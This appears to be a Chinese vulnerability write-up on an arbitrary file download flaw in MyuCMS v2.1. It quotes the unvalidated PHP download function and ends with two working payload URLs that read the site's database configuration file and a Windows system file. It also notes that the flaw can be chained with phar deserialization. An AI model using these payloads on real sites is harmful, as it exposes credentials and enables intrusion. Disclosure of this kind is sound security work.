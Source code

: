 MyuCMS v2.1 前台任意文件下载
============================

一、漏洞简介
------------

二、漏洞影响
------------

MyuCMS v2.1

三、复现过程
------------

既然是文件下载，先在整个项目中搜索下 **download**
关键字，尝试看看能不能直接定位到关键代码。

通过搜索定位到 **bbs** 模块下的 **Index** 控制器的 **download** 方法。

[![img](./.resource/MyuCMSv2.1前台任意文件下载/media/rId24.jpg)](https://pic.downk.cc/item/5e4266e52fb38b8c3c9e7e3d.jpg)

**download** 方法接受三个参数，这三个参数我们是完全可控的，单从
**download** 这个方法来看，无任何参数内容限制，直接将 **\$url** 和
**\$name** 两个参数传递给了 **Http** 类的 **download** 方法来执行下载。

若 **Http-\>download()**
方法中还未对参数内容进行限制，便会造成任意文件下载漏洞。

接下来，我们跟进 **Http-\>download()** 方法。

    static public function download ($filename, $showname='',$content='',$expire=180) {
            if(is_file($filename)) { //判断 $filename 是否为文件
                $length = filesize($filename); // 获取 $filename 的文件大小
            }elseif($content != '') {
                $length = strlen($content);
            }else {
                throw_exception($filename.L('下载文件不存在！')); // 若文件不存在抛出异常
            }
            if(empty($showname)) {
                $showname = $filename; // $showname 为下载后文件的名称。若未设置则与被下载文件同名
            }
            $showname = basename($showname); //获取路径中的文件名部分
            if(!empty($filename)) {
                $type = mime_content_type($filename); //获取文件的MIME类型
            }else{
                $type    =   "application/octet-stream";
            }
            //发送Http Header信息 开始下载
            header("Pragma: public");
            header("Cache-control: max-age=".$expire);
            //header('Cache-Control: no-store, no-cache, must-revalidate');
            header("Expires: " . gmdate("D, d M Y H:i:s",time()+$expire) . "GMT");
            header("Last-Modified: " . gmdate("D, d M Y H:i:s",time()) . "GMT");
            header("Content-Disposition: attachment; filename=".$showname);
            header("Content-Length: ".$length);
            header("Content-type: ".$type);
            header('Content-Encoding: none');
            header("Content-Transfer-Encoding: binary" );
            if($content == '' ) {
                readfile($filename); // 读取文件内容并输出，从而实现下载
            }else {
                echo($content);
            }
            exit();
        }

由如上代码我们可以看出，**Http-\>download()**
方法中同样**未对传入的参数进行内容限制**，只实现了下载的业务逻辑。

此处任意文件下载，结合 phar
反序列化，还可以造成任意文件删除和任意文件写入（仅linux下）。

### Payload

    Payload: http://www.0-sec.org/bbs/index/download?url=application/database.php&name=&local=1

    Payload: http://www.0-sec.org/bbs/index/download?url=c:/windows/win.ini&name=&local=1

参考链接
--------

> https://xz.aliyun.com/t/7271\#toc-0

